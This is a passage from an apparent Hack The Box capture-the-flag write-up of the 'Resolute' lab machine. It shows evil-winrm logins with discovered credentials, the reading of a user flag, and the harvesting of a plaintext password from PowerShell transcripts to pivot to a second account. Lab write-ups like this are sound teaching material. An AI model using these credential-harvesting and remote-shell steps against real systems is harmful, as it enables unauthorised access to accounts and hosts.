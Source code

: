 Bingo, we got the password for Melanie's account.

```
root@beholder:~/htb/resolute# evil-winrm -u melanie -p Welcome123! -i 10.10.10.169

Evil-WinRM shell v2.0

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\melanie\Documents> type ..\desktop\user.txt
0c3be45f[...]
```

## Powershell transcripts - Getting access as user ryan

Looking around the filesystem, I found the Powershell transcripts in the `C:\pstranscripts\20191203` directory. They contain a `net use` command that `ryan` used to mount a remote file share. Unfortunately for him, he specified the credentials in the command so I can see them in plaintext in the transcript file: `ryan / Serv3r4Admin4cc123!`

```
*Evil-WinRM* PS C:\pstranscripts\20191203> type PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt
**********************
Windows PowerShell transcript start
Start time: 20191203063201
Username: MEGABANK\ryan
RunAs User: MEGABANK\ryan
[...]
**********************
Command start time: 20191203063515
**********************
PS>CommandInvocation(Invoke-Expression): "Invoke-Expression"
>> ParameterBinding(Invoke-Expression): name="Command"; value="cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4cc123!
```

After getting access to the `ryan` user account, I found a note in his desktop folder talking about changes automatically being reverted.

```
root@beholder:~/htb/resolute# evil-winrm -u ryan -p Serv3r4Admin4cc123! -i 10.10.10.169
Evil-WinRM shell v2.0
Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\ryan\Documents> dir ../desktop
    Directory: C:\Users\ryan\desktop

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        12/3/2019   7:34 AM            155 note.txt

*Evil-WinRM* PS C:\Users\ryan\Documents> type ../desktop/note.txt
Email to team:

- due to change freeze, any system changes (apart from those to the administrator account) will be automatically reverted within 1 minute
```
